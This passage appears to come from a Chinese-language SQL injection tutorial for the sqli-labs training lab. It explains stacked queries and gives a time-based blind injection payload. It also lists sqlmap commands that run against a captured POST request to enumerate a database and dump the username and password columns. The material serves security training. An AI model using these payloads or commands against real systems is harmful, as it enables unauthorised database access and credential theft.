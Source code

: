 ​	原理:根据sql中用分号将多语句分开，利用这一特点，我们可以在第二个sql语句中构造自己要执行的语句。

​	语句效果展示

​	

```
mysql> select * from users where id=1;select user();

+----+----------+----------+

| id | username | password |

+----+----------+----------+

|  1 | test   | Dumb   |

+----+----------+----------+

1 row in set (0.00 sec)

 

+----------------+

| user()     |

+----------------+

| root@localhost |

+----------------+

1 row in set (0.00 sec)
```

​	首先，依然是老办法id=1'或者其他的使数据库报错

​		sql语句:id=';select if(substr(user(),1,1)='r',sleep(3),1)#

​		这里后面构造的语句就根据自己需要了，有时候也要通过盲注的手段.

# 	基于post的注入

和GET方式无异无非是传参的地方不同而已

### 	**利用Sqlmap注入（less-11）**

可以用submit时用burp抓包，将http请求包写入一个txt文件1.txt中，将1.txt放入sqlmap根目录

```
python sqlmap.py -r 1.txt -p passwd --technique E -current-db --batch

python sqlmap.py -r 1.txt -p passwd --technique E -D security --tables --batch

python sqlmap.py -r 1.txt -p passwd --technique E -D security -T users --columns --batch

python sqlmap.py -r 1.txt -p passwd --technique E -D security -T users -C “username,password” --dump --batch
```
